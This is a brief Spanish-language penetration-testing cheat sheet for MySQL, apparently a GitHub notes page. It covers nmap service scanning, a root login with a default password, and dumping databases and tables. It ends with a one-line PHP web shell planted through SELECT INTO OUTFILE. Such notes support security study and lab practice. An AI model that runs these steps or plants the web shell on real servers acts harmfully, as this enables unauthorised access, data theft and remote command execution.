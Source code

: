 
### Scan

    sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*

### Conectar

    mysql -u root -p'root' -h 192.168.50.16 -P 3306 --ssl=FALSE

### Version

    select version();

### Ver dbs

    show databases;

### Ver tablas

    show tables;

### Dumpear datos de una tabla

    select * from <tabla>

si somos DBA y sabemos cómo acceder a los archivos desde un servicio web, podemos crear una shell:
SELECT '<?php system($_GET[1]); ?>' INTO OUTFILE 'path_to_file';



el resto en:
https://github.com/LaPorota/LaPorota_suite/blob/main/sqli
